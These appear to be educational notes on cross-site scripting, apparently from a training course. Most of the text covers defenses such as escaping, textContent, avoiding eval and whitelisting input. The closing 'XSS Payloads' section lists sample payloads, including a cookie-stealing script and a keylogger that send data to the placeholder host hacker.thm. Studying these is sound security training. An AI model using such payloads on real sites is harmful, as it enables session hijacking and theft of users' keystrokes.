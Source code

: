 #### JavaScript Escaping

* XSS can be introduced with JavaScript code.
* Escaping single quotes will prevent injection.

#### Safe DOM Elements

* XSS in modern Rich Client UIs is often made possible by unsafe handling of the DOM.
* Using the `innerHtml` attribute allows the user input to be rendered as HTML and XSS with JavaScript events as possible.
* The safe alternative is to use `textContent` (or `innerText` in some versions of IE).

#### Use Eval and Dynamic Code Generation with Care

* JavaScript `eval()` function which accepts a JavaScript expression as a string argument and executes it. Use of this function is discouraged.
* Same care is needed when the code generates pieces of JavaScript dynamically. Also discouraged.

#### Input Validation

**Whitelisting** is recommended.

* Reduces the attack surface to a known quantity.
* If possible, most input should be whitelisted to alphanumeric to prevent XSS (and many other attacks).
* Special characters should only be allowed on an exception basis.
* Some cases may be relaxed to allow single quotes or other characters.

**Blacklisting** - NOT RECOMMENDED.

* Creative attacker may bypass blacklist by trying a previously unknown method.

**Client Side Input Validation** - NOT RECOMMENDED.

* Can only be used to assist with product usability.
* Attackers can easily bypass it by sending the request directly to the server.

#### Use Proven Validation and Encoding Functionality

* Protect both input and output - "Defense in Depth" principle.
* As you validate the input and encode the output, use proven and reputable libraries.
* It is best to implement a framework that has one central set of functionality that validates and encodes data.

## XSS Payloads

In XSS, the payload is the JavaScript code we wish to be executed on the target's computer. There are two parts to the payload: the intention and the modification.

* Intention is what you wish the JavaScript to actually do.
* Modification is the changes to the code we need to make it execute as every scenario is different.

Examples of XSS Intentions:

* **Proof of Concept**: Simplest payload to demonstrate XSS is possible on a website - causing an alert box to pop up on the page with a string of text.
  * `<script>alert('XSS');</script>`
* **Session Stealing**: Details of a user's session, such as login tokens, are often kept in cookies on the target's machine.
  * `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
    * Takes target's cookie, base64 encodes the cookie to ensure successful transmission for control to be logged in.
* **Key Logger**: Acts as a key logger where anything typed on the webpage will be forwarded to a website under the hacker's control.
  * `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
* **Business Logic**: Calls a particular network resource or a JavaScript function. In this example for changing the email's address called `user.changeEmail()`.